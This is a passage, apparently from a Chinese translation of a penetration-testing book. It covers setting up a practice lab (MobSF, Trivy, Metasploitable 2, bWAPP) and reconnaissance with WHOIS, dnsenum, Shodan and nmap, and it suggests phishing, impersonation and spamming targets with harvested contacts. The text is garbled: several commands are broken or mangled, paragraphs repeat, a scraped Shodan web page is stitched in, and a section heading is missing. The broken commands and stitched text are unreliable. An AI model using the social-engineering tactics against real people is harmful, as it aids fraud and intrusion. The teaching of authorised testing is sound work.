2. 运行命令 `sudo systemctl start` 启动 Docker 服务，如图 2.35 所示：

```
$ medel@kali:
$ sudo systemctl start
```

图 2.35: 启动 Docker

3. 运行命令 `sudo docker pull openssecurity/mobile-security-framework-mobsf` 下载 `MobSF` 镜像，如图 2.36 所示。该命令将从 Docker Hub 获取镜像并保存到你的系统中：

```
$ medel@kali:
$ sudo docker pull openssecurity/mobile-security-framework-mobsf
Using latest image
Pulling from openssecurity/mobile-security-framework-mobsf
```

4. 运行 `MobSF` 容器：镜像下载成功后，运行命令 `docker run -it -p 8000:8000 opensecurity/mobile-security-framework-mobsf` 来启动 `MobSF` 容器，如图 2.37 所示。此命令将启动带有 `MobSF` 的容器：

```bash
$ ummeedel@kali:~# sudo docker run -it -p 8000 opensecurity/mobile-security-framework-mobsf
[INFO] May/13/2023 10:29:31 - 
[INFO] May/13/2023 10:29:31 - Mobile Security Framework v3.6.6 Beta
REST API Key: 308ea0ab2f73c231bc4fe5f67d3d10fc1b7ec02ce84a08f935c1011n
[INFO] May/13/2023 10:29:31 - OS: Linux
[INFO] May/13/2023 10:29:31 - Platform: Linux-5.10.0-kali-amd64-x86_64-with-glibc2.9
```


[INFO] May/13/2023 10:29:31 - Dist: ubuntu 20.04 Fossa Focal

[INFO] May/13/2023 10:29:31 - MobSF Base Environment Check

```

图 2.37：运行 MobSF

## 5. 访问 MobSF Web 界面

打开网页浏览器并导航到 `http://localhost:8000`，如图 2.38 所示访问 MobSF Web 界面。该界面允许你与 MobSF 交互并进行安全测试和分析：



图 2.38：访问 MobSF Web 界面

若要使用 Docker 快速安装 MobSF，只需从 `"opensecurity/mobile-security-framework-mobsf"` 获取 Docker 镜像即可！这种无忧的方法能够实现快速简单的 MobSF 设置。Docker 的显著优势在于它能够绕过 Python 以及其他决条件的复杂性。

## Trivy

Trivy 是一个简单而强大的容器漏洞扫描器，专为 CI/CD 流水线定制。在 Kali Linux 上安装它非常简单，且你可以通过命令行界面访问它。

以下是设置方法：

1.  首次，使用命令 `wget https://github.com/aquasecurity/trivy/releases/download/v0.18.3/trivy_v0.18.3_linux-64bit.deb` 下载 Trivy 安装脚本，如图 2.39 所示。



> 图 2.39：下载 Trivy 安装脚本

2.  使用命令 `sudo dpkg -i trivy_0.18.3_Linux-64bit.deb` 安装 Trivy，如图 2.40 所示：

```bash
(ummeedel@kali) ~/Desktop

$ sudo dpkg -i trivy_0.18.3_linux-64bit.deb

(Reading database ... 401177 files and directories installed.)

Preparing to unpack trivy_0.18.3_linux-64bit.deb ...

Unpacking trivy (0.18.3) over (0.5/3) ...

Setting up trivy (0.18.3) ...
```

> 图 2.40：安装 Trivy

3.  安装完成后，你可以使用命令 `trivy image_name` 扫描容器漏洞，如图 2.41 所示。

为了进一步的个性化配置，你还可以选择为扫描定义额外的策略。这可能包括设置报告的漏洞的严重程度级别，或指定用于扫描的包名。如需深入了解并探索完整的选项，你可以查看 `https://github.com/aquasecurity/trivy` 的 Trivy 文档。

> 注意：随着容器在云环境中部署和运行应用程序的使用日益增加，容器安全已成为网络安全的关键要素。

## 设置漏洞机器和应用程序

现在，让我们通过检查涉及的步骤，探索配置不同漏洞机器和应用程序的过程：

## 设置 Metasploitable 2

Metasploitable 是一个默认的虚拟机，旨在探索和演示 Metasploit 框架的特性。它是磨练黑客能力、测试安全方法以及深入研究 Metasploit 框架运行机制的宝贵工具。

要在 VMware 上设置 Metasploitable 2，你需要执行以下步骤：

*   通过访问 Rapid7 网站 `https://information.rapid7.com/download-metasploitable-2017.html` 获取 Metasploitable 2 虚拟机镜像，如图 2.42 所示：

## 下载 Metasploitable，用于评估 Metasploit 的故意留存目标机器

开始你的 Metasploit 之旅：如果你想对你的网络进行渗透测试，Metasploitable 是一个基于 Linux 的机器。评估 Metasploit 需要一个包含多个漏洞的 Linux 机器。为了在 VMware 上设置 Metasploitable 2，你需要执行以下步骤：

*   访问 Rapid7 网站 `https://information.rapid7.com/download-metasploitable-2017.html` 获取 Metasploitable 2 虚拟机镜像，如图 2.42 所示：

图 2.42：什么是 Metasploitable？它是如何工作的？

开始你的 Metasploit 之旅：如果你想对你的网络进行渗透测试，Metasploitable 是一个包含多个漏洞的 Linux 机器。为了在 VMware 上设置 Metasploitable 2，你需要执行以下步骤：

*   访问 Rapid7 网站 `https://information.rapid7.com/download-metasploitable-2017.html` 获取 Metasploitable 2 虚拟机镜像，如图 2.42 所示：

3.  将 Metasploitable 2 虚拟机镜像导入 VMware 或 VirtualBox，如图所示：


图 2.43：导入 Metasploitable 2 虚拟机

安装完成后，使用默认凭据：`metasploitable`。

## 设置 bAPP

bWAPP，又称为 Buggy Web Application（漏洞应用程序），是一个用于训练的故意不安全应用程序。它可以帮助理解 注入、跨站脚本等攻击。它是开源的，免费下载。

要在 Windows VM 上设置 bWAPP，你需要遵循以下步骤：

1.  在你的 Windows VM 上下载并安装最新版本的 XAMPP。这将为 bWAPP 提供本地服务器环境。
2.  从官网下载最新版本的 bWAPP 并将其提取到 XAMPP 安装目录下的 `htdocs` 文件夹中。
3.  通过控制面板并点击启动按钮启用 XAMPP 中的 Apache 和 MySQL 模块，如图 2.46 所示。
4.  打开网页浏览器并访问以下 URL：`http://localhost/bwapp/install.php`。这将启动 bWAPP 安装向导，如图 2.47 所示：



图 2.47：bWAPP 安装向导

5.  安装完成后，你可以通过在网页浏览器中访问 `http://localhost/bwapp` 来访问 bWAPP，如图 2.48 所示：



图 2.48：安装完成后

使用默认凭据：用户名 `bee`，密码 `bee`。

注意：BWAPP 使用 PHP 开发并配有 MySQL 数据库，可以配置在如 XAMPP 的本地服务器或远程 Web 服务器上。

## 结论

VAPT 测试实验室环境搭建模块已成功完成。本章侧重于建立攻击实验室和构建真实测试环境的实操方面。掌握了这些知识，你现在已经了创建自己的本地实验室并理解特定设置前提条件的能力。本章不仅传授了实验室搭建的逐步演进方法，还引入了关键的 VAPT 概念和工具，包括 Kali Linux，它有助于在目标上运行演练和漏洞利用程序。

在接下来的章节中，我们将深入探讨侦察策略在有效渗透测试中的重要性。通过侦察获取有关目标的充分信息对于构建测试所需的要素起着至关重要的作用。侦察是漏洞评估与渗透测试（VAPT）的第一步，为整个过程奠定了基础并确保其成功执行。

## 加入我们书籍的 Discord 空间

加入书籍的 Discord 工作空间获取最新更新、优惠、全球技术动态、新发布以及与作者的互动：

`https://discord.bpbonline.com`


# 第 3 章
## 主动与被动侦察策略

## 引言

在本章中，我们将深入研究侦察策略的细节，这些策略对于渗透测试的成功起着重要作用。通过侦察获取足够的目标信息是确定测试所需内容的。计算机系统的不同部分可能需要不同的方法来收集正确的数据。作为渗透测试人员，根据目标公司的工作方式来定制你的方法也很重要。

互联网就像一个所有人都可以访问的信息宝库。其中一种技巧被称为开源情报（OSINT），它可以帮助渗透测试人员从公共来源收集关键数据，如电子邮件地址、域名、IP 地址、员工姓名、主机名和 DNS 记录。

> 注意：侦察是漏洞评估与渗透测试（VAPT）练习的第一步，因为它为后续过程奠定了基础并有助于其成功。

## 结构

在本章中，我们将讨论以下主题：

*   什么是侦察
*   为什么情报收集如此重要
*   侦察的类型
*   被动侦察的工具和策略
    *   `WHOIS`
    *   `DNS` 侦察
    *   `IP` 侦察
    *   路径映射
    *   电子邮件地址
    *   姓名和号码
    *   密码或泄露数据导出
*   主动侦察的工具和策略
    *   主机发现
    *   端口扫描
    *   运行的服务和版本检测
    *   操作系统指纹识别
    *   目录枚举
    *   硬编码信息
*   侦察的额外资源
    *   `Maltego`
    *   `SPARTA`

# 什么是侦察

为漏洞评估与渗透测试（VAPT）准备收集目标信息的过程被称为侦察。可以通过主动和被动的方法进行，包括网络扫描、社会工程、网络爬虫、足迹探测和指纹识别。侦察的目的是尽可能获取有关目标的信息，包括其系统、服务器、网络、应用程序和人员，以便识别潜在漏洞并策划更复杂的攻击。

有很多工具、技术和网站可用于收集情报。本章将简要介绍这些资源以及如何使用它们收集必要信息。常用的推荐的侦察策略如图 3.1 所示：



图 3.1：侦察策略

## 为什么侦察如此重要

侦察对于在攻击前理解目标至关重要。基于侦察的良好规划策略可以显著帮助渗透测试人员，通过减少误报、减少所需的攻击次数、缩短所需时间并提高扫描质量。通过收集有关目标的大量信息，你可以更高效地策划攻击，并可能缩短攻破目标所需。

## 侦察的类型

VAPT 练习通常包括四个阶段，如图 3.2 所示，侦侦察察。可以通过以下方式进行：

| 阶段 | 描述 |
| :--- | :--- |
| 被动侦察 | 在不直接参与或交互的情况下获取目标信息 |
| 主动侦察 | 通过直接参与和交互获取有关目标的知识 |
| 策略构建 | 设计良好的策略可以增加 VAPT 练习的成功机会 |
| 漏洞利用 | 在有充分策略的情况下，可以更高效地执行漏洞利用阶段 |

图 3.2：VAPT 练习阶段

## 被动侦察

被动侦察意味着在不直接接触目标的情况下收集其信息。这种方法比主动方法更难被发现且速度更快，但数据可能不是是最新的或可靠的。例如，在不直接联系目标组的情况下获取电子邮件地址列表就是被动侦察。

## 主动侦察

主动侦察意味着你通过直接参与来获取目标信息。这种方法比被动方法风险更大且更耗时，因为你正在与目标直接交互，可能会被注意到。它是被动侦察的扩展版本，通常提供更精确、当前的信息。例如，如果你想要服务器的服务列表及其版本，你需要询问服务器。这就是主动侦察的一个示例。

> 注意：侦察信息可以转换为可操作的情报以创建良好的利用计划。该计划包括利用选择的方法攻击系统，这将增加成功的机会并缩短操作时间。

## 被动侦察工具和策略

有很多被动侦察的策略。让我们在实践中讨论一些：

## WHOIS

侦察的第一步是收集有关目标 IP 地址和域名所有者的信息。`WHOIS` 命令用于从域名注册商数据库获取这些信息。它可以显示谁拥有域名以及托管在哪个 IP 地址上。

根据查询的数据库，渗透测试人员可以收集多种数据：

*   **注册商（Registrar）：** 发布和管理域名预留的组织
*   **注册人（Registrant）：** 拥有域名的组织或个人
*   **管理员和技术人员（Admin and Tech）：** 开发和维护网站的组织或个人
*   **DNS 服务器（Namesvers）：** 域名到 IP 地址的解析
*   **创建和过期日期：** 域名注册和过期日期
*   **状态（Status）：** 域名的当前状态（例如，活动、过期等）

参考图 3.3 到图 3.5 中的截图查看‘ummedcyber.’域名的详情：

运行命令：`whois ummedcyber.com`

注册者名称：Ummed Meel
注册组织：
注册者街道：Sikar
注册者城市：Sikar
注册州/省：Rajasthan
注册者邮编：332031
注册国家：IN
注册者电话：+91.00
注册者电话分机：
注册者传真：
注册者邮箱：um@gmail.com
注册者管理员 ID：无法从注册局获取
管理员名称：Ummed Meel
管理员组织：
管理员街道：Sikar
管理员城市：Sikar
管理员州/省：Rajasthan
管理员邮编：332031
管理员国家：IN
管理员电话：+91.00
管理员电话分机：
管理员传真：
管理员邮箱：um@gmail.com

图 3.4：域名注册者和管理员详情

剩余信息显示在下面的图 3.5 中，顺序与之前相同。

技术人员：Ummed Meel
技术组织：
技术街道：Sikar
技术城市：Sikar
技术州/省：Rajasthan
技术邮编：332031
技术国家：IN
技术电话：+91.00 59
技术电话分机：
技术传真：
技术邮箱：um@gmail.com
名称服务器：NS15.DOMAINCONTROL.COM
名称服务器：NS16.DOMAINCONTROL.COM

> DNSSEC:
ICANN WHOIS 数据报告系统 URL：`http://wdprs.internic.net/`
>>> WHOIS 数据库最后更新时间：2023-02-01T16:58:22Z <<
如需更多关于 WHOIS 状态码的信息，请访问 `https://icann.org/erp`

根据上述侦察，得出以下统计结果：目标组织的攻击面将会增加。

*   如果识别出的域名与注册者相关联，这些细节对于构建社会工程攻击可能很有用。例如，如果注册者是个人，可以使用这些信息来针对其量身定制攻击。
*   获取注册者的联系方式（如其电子邮件地址和电话号码）对于钓鱼攻击等社会工程攻击很有用。渗透测试人员可以使用这些信息联系目标并尝试操纵他们。
    如果 如果我们能够识别出网络开发公司，也可以在他们的其他域名中搜索类似的漏洞。
*   名称服务器可用于获取托管 IP 和其他细节，这对于执行基于 IP 的利用很有用。
*   域名年龄是指域名的年龄，可以通过检查域名的旧存档来探索应用程序的旧或未使用的特性和功能。

> 注意：有时，如果用户向注册商支付额外费用以保持所有权详情隐私，WHOIS 详情可能会被代理信息掩盖。

## DNS 侦察

**域名系统 (DNS)** 侦是收集与网站相关的各种记录的过程，这有助于配置并使其在互联网上可访问。该技术的关键方面之一是 DNS 解析，它允许识别与网站关联的 IP 地址。

此外，通过利用 DNS 侦察，渗透测试人员可以收集价值情报，例如：

*   **NS（名称服务器）记录**：这些指示了负责管理和存储特定域名 DNS 记录的服务器位置。
*   **A（地址）记录**：这些记录指定与给定域名关联的 IP 地址。
*   **AAAA 记录**：这些记录与“A”记录非常相似，但用于将域名映射到 IPv6 地址。
*   **MX（邮件交换）记录**：这些记录指示了与域名关联的电子邮件服务器的详情。
*   **CNAME（别名）记录**：如果单个服务器上运行着多个服务，这些记录有助于确定其他域名的名称。
*   **TXT 记录**：这些记录包含与域名关联的其他资源的详细信息，例如服务器和网络信息。
*   **PTR（指针）记录**：这些记录是“A”记录的反向，它们提供了与 IP 地址对应的域名。

有多种工具可用于 DNS 侦察，如 `nslookup`、`dig`、`dnsenum`、`dnsrecon`、`dnsmap`、`DNSRecon`、`theHarvester` 和 `Sublist3r`。为了说明 DNS 侦察的概念，我们将使用 `dnsenum` 示例，这是一个多线程 Perl 脚本，可以在命令行模式下以枚举 DNS 信息。查看图 3.6 和图 3.7 中的截图以深入查看 ummedcyber.com 域名的 DNS 侦察。

运行命令：`dnsenum ummedcyber.com`

```
ummedneel@kali:~

$ dnsenum ummedcyber.com

dnsenum VERSION:1.2.6

ummedcyber.com

主机地址：

ummedcyber.com.           5    IN    A       166.62.10.50

邮件服务器：

s15.domaincontrol.com      5    IN    A       97.74.107.8

ns16.domaincontrol.com      5    IN    A       173.201.75.58
```

图 3.6：DNS 侦察

剩余信息显示在下面的图 3.7 中，顺序与之前相同：

使用 `/usr/share/dnsenum/dns.txt` 进行暴力破解：

```
admin.ummedcyber.com.     5    IN    A       166.62.10.50

mail.ummedcyber.com.      5    IN    A       166.62.10.50

www.ummedcyber.com.       5    IN    CNAME  166.62.10.50
```


图 3.7：DNS 侦察

## 探索

类别


工业控制系统

数据库


网络基础设施


视频游戏


研究

## Shodan 2000

在 80 年代复古未来感的界面和合成器波乐音乐中探索互联网。

```
在线查看
```

## 互联网观察站

你的国家状况如何？最常见的漏洞是什么？使用我们的工具获取互联网的高层视图。

...

浏览搜索目录

搜索共享查询...

## 职位板

通过 HTTP 头部发现这些工作。

```
在线查看
```

## 热门标签

- `apache`
- `nginx`
- `windows`
- `linux`
- `php`
- `mysql`
- `wordpress`
- `java`

## 以太坊矿工

通过以太坊加密寻找以太坊矿工...

```
在线查看
```

## 什么是搜索目录？

Shodan 允许你通过将查询保存到与社区共享

## AppleAir 接收器

寻找 `AppleAir` 接收器和设备...

```
在线查看
```

> 图 13：Shodan.io 并点击“探索”

2. 随后你可以探索任何目标区域，如上一图所示，可用主机总数以及按全球顶级国家和组织分组的主机列表。示例参考图 3.14：

总结果

## 342.465

热门国家


| 国家 | 数量 |
|---|---|
| 美国 | 271,677 |
| 中国 | 20,534 |
| 大韩民 | 3,943 |
| 加拿大 | 2,444 |
| 荷兰 | 更多... |

查看报告

浏览图片

在地图上查看

合作伙伴聚焦：在 Shodan 上寻找存储所有主机的地方。查看 `Graywall`

## 34.107.144

未返回数据

```
123.45.67.89:84
google.com
Google LLC
城市：美国，堪萨斯州
```

```
show
```

## 34.968.121

未返回数据

```
123.45.67.89:84
google.com
Google LLC
城市：美国，堪萨斯州
```

```
show
```

## 34.110.175.208

未返回数据

```
123.45.67.89:84
google.com
Google LLC
城市：美国，堪萨斯州
```

```
show
```

## 热门组织

| 组织 | 数量 |
|---|---|
| Google LLC | 248,062 |
| Alpon Company Co., Ltd | 16,112 |

> 图 3.14：按全球顶级国家和组织分组的主机列表

3. 要查看详细信息，请在 `shodan` 上选择特定主机。你将看到开放端口列表和关联的主机服务。例如，图 3.15 展示了基于 IP 的摄像头主机的详情：



4. 为了改进结果，`shodan` 上提供了各种可在搜索查询中使用的过滤器。例如，如果你想找到位于印度且开启了特定端口的主机，可以按照图 3.16 构建搜索查询：

## 19,786

热门城市

| 城市 | 数量 |
|---|---|
| 孟买 | 1,451 |
| 德里 | 2,354 |
| 钦奈伊 | 940 |
| 海德拉巴德 | 718 |

热门组织

| 组织 | 数量 |
|---|---|
| Amazon Data Services India | 679 |
| Web Marks India Pvt. Ltd. | 672 |
| Broadband-Multiplex Project, On Demand | 639 |
| Softline Infocom Limited | 668 |
| Microsoft Corporation | 669 |

热门端口

| 端口 | 数量 |
|---|---|
| `https` | 903 |
| `smtp` | 95 |


根据上述侦察，可以得出以下统计数据：

- 了解目标系统上的开放端口和运行服务将增强对漏洞利用尝试的规划和执行。
- 获取其他关联 IP 地址列表将扩大攻击面，增加成功攻破目标的概率。

> 此外，可以使用 `Shodan` 检测连接互联网的工业控制系统 (ICS)，例如可能易受攻击的 `SCADA` 系统。

## 路由映射

路由映射涉及弄清数据到达目的地的路径。可以使用多种方法，包括：

- 路由追踪 (`traceroute`)：`traceroute` 命令通过向网关发送数据包来追踪到目的地的路由。
- `ping`：`ping` 是检查 IP 地址是否可达的简单工具。
- 路径追踪 (`pathping`)：Windows 中的一种命令，结合了 `ping` 和 `traceroute`。
- `MTR`：我的路由追踪 (`MTR`) 是一种强大的工具，结合了 `traceroute` 和 `ping` 来测量延迟。

> 图 3：路由映射 (`traceroute`)

根据侦察，可以得出以下统计数据：

- 路由映射能够让你可视化目标网络，从而更容易理解和规划攻击。
- 路由映射允许你识别目标网络中的瓶颈，例如发生拥堵的区域。

- 渗透测试人员可以使用电子邮件地址进行社会工程攻击，并收集有关目标组织的额外信息。
- 渗透测试人员可以对目标用户发起钓鱼攻击，以获取关键的登录凭据。
- 渗透测试人员可以使用电子邮件地址伪装用户，欺骗他人转账或提供敏感信息。
- 渗透测试人员还可以发送垃圾邮件，作为策略的一部分，在利用期间让目标用户处于忙碌状态。

## 姓名与号码

通过识别员工的姓名和电话号码，渗透测试人员可以计划并执行诸如语音诈骗（vishing）、短信诈骗（smashing）和预设场景（pretexting）等社会工程攻击。具体来说，一旦攻击者获得了目标的姓名，他们可以在社交媒体上搜索该个人，以确认其在目标组织的工作。确认后，渗透测试人员就可以开发并实施社会工程策略，直接破坏该组织的数字基础设施，或操纵员工泄露敏感信息。

为了理解基于个人姓名和号码的信息收集工作，我们将在本章的最后一节讨论 `Maltego`。在本章的最后部分，我们将深入探讨使用名为 `Maltego` 的工具基于个人姓名和号码收集信息的主题。

> 社会工程学是攻击者采用的一种方法，通过欺骗和操纵个人泄露敏感信息，或执行对其或其组织产生不利的操作。

## 密码或泄露数据转储

密码或泄露数据包包含了数据泄露中暴露的登录详情和敏感信息。黑客将这些发布在网络市场上，网络犯罪分子很容易访问。弱密码以及在不同网站上重复使用密码会导致安全性降低，让测试人员进入在线账户，甚至是社交媒体或虚拟会议。因此，未经许可或不符合伦道德的使用这些数据可能是错误或非法的。所以在 `VAPT`（漏洞评估与渗透测试）中，获得许可并遵循伦道德至关重要。

有很多工具和服务用于数据破解和密码安全：

- `Dehashed`：`Dehashed` 是一个用于密码安全和数据泄露的付费在线平台，为任何泄露及相关的破解密码提供搜索结果。
- `Have I Been Pwned`：`Have I Been Pwned` 是一个网站，允许用户搜索涉及其电子邮件、用户名或域的数据泄露，并检查密码泄露状态。
- `Password Checkup`：`Password Checkup` 是一个 `Chrome` 扩展程序，会自动将密码与已知泄露数据库进行比对以检测泄露。
- `SpyCloud`：`SpyCloud` 是一个提供密码安全服务的在线平台，包括用于验证是否涉及数据泄露和分析密码泄露的工具。

## 主动侦察工具与战术

进行主动侦察有许多战术。让我们在实践中讨论其中一些：

## 主机发现

主机发现是网络侦察的第一步，用于识别攻击的潜在目标。它涉及识别目标网络内的活动主机。传统的主机发现方法是使用 `ICMP` 回显（`echo`）来检查主机状态，但这经常会被网络安全措施拦截。尽管如此，主机发现工具仍然拥有选项和内置脚本来检查主机状态。

在本示例中，我们将使用 `Nmap` 进行主机发现。`Nmap` 是“Network Mapper”的缩写，是一种用于网络发现和安全审计的开源工具。虽然 `Nmap` 通常在命令行界面中使用，但也可以通过名为 `Zenmap` 的图形用户界面使用。让我们执行一次 `ping` 扫描来识别网络上的主机，如图 3.19 所示：

```
nmap -v -sP 192.168.159.129
```

在这里，`-v` 标志用于详细输出，提供来自 `nmap` 扫描的详细且组织化的信息。`-sP` 标志用于 `ping` 扫描。请参考下图：

```
$ nmap -v -sp 192.168.159.129

Warning: The -sp option is deprecated. Please use -sn

Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-18 21:20 EST

Initiating Ping Scan at 21:20

Scanning 192.168.159.129 [2 hosts]

Completed Ping Scan at 21:20 (0.02s elapsed/1 total hosts))

Initiating Parallel DNS resolution of 1 host. at 21:20

Completed Parallel DNS resolution of 1 host. at 21:20, 0.28s elapsed

map scan report for 192.168.159.129

Host is up (0.020s latency), scanned in 0.44 seconds

map done: 1 IP address scanned
```

图 3.19：主机发现扫描

让我们深入探讨表 3.1 中概述的 `Nmap` 的一些关键实际应用：

| 序号 | 发现技术 | 关联标志 |
|---|---|---|
| 01 | 列表扫描 (List Scan) | `-sL` |
| 02 | 无端口扫描 (ping 扫描) | `-sn` |
| 03 | 无用 ping 扫描 | `-Pn` |
| 04 | TCP SYN Ping | `-PS` |
| 05 | TCP ACK Ping | `-PA` |
| 06 | UDP Ping | `-PU` |
| 07 | SCTP INIT Ping | `-PY` |
| 08 | ICMP Ping 类型 | `-PE` 或 `-PP` 或 `-PM` |
| 09 | IP 协议 Ping | `-PO` |
| 10 | 无 ARP 或 ND Ping | `--disable-arp-ping` |

表 3.1：主机发现技术及关联标志

- 列表扫描：该扫描是一种在指定网络上识别主机的基本方法，仅涉及列出主机，而不向它们发送任何数据包。默认情况下，`Nmap` 还会对主机进行反向 `DNS` 解析以确定它们的名称。
- 无端口扫描：无端口扫描选项告诉 `Nmap` 仅识别指定网络上的可用主机，而不在此后进行端口扫描。
- 无用 `ping` 扫描：当你运行 `ping` 扫描时，它会禁用主机发现过程，`Nmap` 将尝试对给定的所有目标 IP 地址执行指定的扫描，无论主机是否在线。此选项完全消除了对主机发现策略的需求。
- `TCP` `SYN` ping：当向目标主机上的特定端口发送 `TCP` `SYN` 数据包时，如果主机响应 `SYN-ACK` 数据包，则表示该主机在网络上是活跃且可用。
- `TCP` `ACK` ping：当向目标主机上的特定端口发送 `TCP` `ACK` 数据包，如果主机响应 `RST` 数据包，则表示该主机在网络上是活跃且可用。
- `UDP` ping：当向目标主机上的特定端口发送 `UDP` 数据包，如果主机响应 `ICMP` 不可达消息，则表示该主机在网络上是活跃且可用。
- `SCTP` `INIT` ping：当向目标主机上的特定端口发送 `SCTP` `INIT` 数据包，如果主机响应 `INIT-ACK` 数据包，则表示该主机在网络上是活跃且可用的。
- `ICMP` ping 类型：当向目标主机发送 `ICMP` 回显请求数据包时，如果主机响应 `ICMP` 回显应，则表示该主机在网络上是活跃且可用的。
- `IP` 协议 ping：当向目标主机发送头部带有特定协议号的 `IP` 数据包时，如果主机响应 `ICMP` 不可达消息，则表示该主机在网络上是活跃且可用的。
- `ARP` 或 `ND` ping：地址解析协议（`ARP`）用于确定本地网络上与网协议（`IP`）地址相关的媒体访问控制（`MAC`）地址，而邻居发现（`ND`）是用于 `IPv6` 的相应协议。当向目标主机发送 `ARP` 或 `ND` 请求时，如果主机响应 `ARP` 或 `ND` 响应，则表示该主机在网络上是活跃且可用的。

在这里，使用了 `-p` 标记来指定我们想要扫描的端口号或范围：

```
$ (ummdael@kali)~/desktop

$ nmap -vp 22.192.168.129

Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-18 21:40 EST

Initiating Ping Scan at 21:40

Scanning 192.168.159.129 [1 host]

Completed Ping Scan at 21:40, 0.00s elapsed (1 hosts)

Initiating Parallel DNS resolution of 1 host. at 21:40

Completed Parallel DNS resolution of 1 host, 0.03s elapsed

Initiating Connect Scan at 21:40

Scanning 192.168.159.129 [1 port]

Discovered open port 22/tcp on 192.168.159.129

Completed Connect Scan 1 port at 21:40, 0.08s elapsed (1 host)

Nmap scan report for 192.168.159.129

Host is up (0.00125 latency).
```

```
PORT STATE SERVICE

22/tcp open ssh
```

```
Read data files from: /usr/bin/../share/nmap
nmap done: 1 IP address (1 host) scanned in 0.14 seconds
```

图 3.20：使用 `nmap` 进行端口扫描

让我们探索一些端口扫描方法，详细见下表 3.2 所示所示：

| 端口扫描技术 | 关联标记 |
|---|---|
